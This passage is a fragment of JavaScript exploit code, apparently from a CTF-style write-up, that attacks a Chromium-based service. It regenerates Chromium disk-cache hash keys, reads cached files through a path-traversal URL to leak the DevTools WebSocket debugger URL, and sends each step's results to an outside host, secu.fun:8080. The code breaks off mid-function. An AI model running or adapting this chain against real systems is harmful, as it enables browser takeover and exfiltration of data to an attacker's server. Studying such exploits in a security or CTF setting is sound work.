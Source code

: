 ```js
            console.log("Current hash:", hash);
            fetch(`http://secu.fun:8080/?c=step1:${hash}`)
            setTimeout(() => { 
                    fetchHtmlContentFromCache(hash, targetPageUrl); // Load our exploit page in /json/list ( don't care about cache here ), devtool will create a ws to interact with this
            }, 1500);
            
        })
        .catch(error => console.error('Error during requests or hashing:', error));
}

async function getEntryHashKey(url) {
    // https://source.chromium.org/chromium/chromium/src/+/main:net/disk_cache/simple/simple_entry_format.h
    // We use this algo to regenerate hash_key from url

    // Uint8Array
    const encoder = new TextEncoder();
    const data = encoder.encode(url);

    //SHA1 the cache_key
    const hashBuffer = await crypto.subtle.digest('SHA-1', data);
    const hashArray = Array.from(new Uint8Array(hashBuffer));

    // Take only 8 first bytes and reverse them
    const truncatedReversedHash = hashArray.slice(0, 8).reverse();

    // Finally hex them
    const hashHex = truncatedReversedHash.map(b => b.toString(16).padStart(2, '0')).join('');
    const hash = hashHex + '_0'; // Depend of data type, for a classic HTML is generally _0
    return hash;
}


function fetchHtmlContentFromCache(hash, targetUrl) {
    // Now we have the name of the file corresponding to the ressource cached, we can dump it, leaking the ws url of the /json/list cached file
    const cacheUrl = `http://localhost/logs../browser_cache/Default/Cache/Cache_Data/${hash}`;
    fetch(cacheUrl)
        .then(response => response.text())
        .then(htmlContent => {
            //console.log('HTML content:', htmlContent.lenght); // raw format
            fetch(`http://secu.fun:8080/?c=step2:${targetUrl}`)
            return extractWebSocketUrls(htmlContent, targetUrl);
        })
        .then(targetWebSocketUrl => {
            console.log('Extracted WebSocket URL for target:', targetWebSocketUrl);
        })
        .catch(error => console.error('Error fetching HTML content:', error));
}


function extractWebSocketUrls(rawContent, targetUrl) {
    
    // Attempt to extract WS link of our exploit URL
    const regex = /"url"\s*:\s*"([^"]+)"\s*,\s*"webSocketDebuggerUrl"\s*:\s*"([^"]+)"/g;
    let match;
    while ((match = regex.exec(rawContent)) !== null) {
        const url = match[1];
        const webSocketUrl = match[2];
        if (url === targetUrl) {
            setTimeout(() => {
              fetch(`http://secu.fun:8080/?c=step3`)
```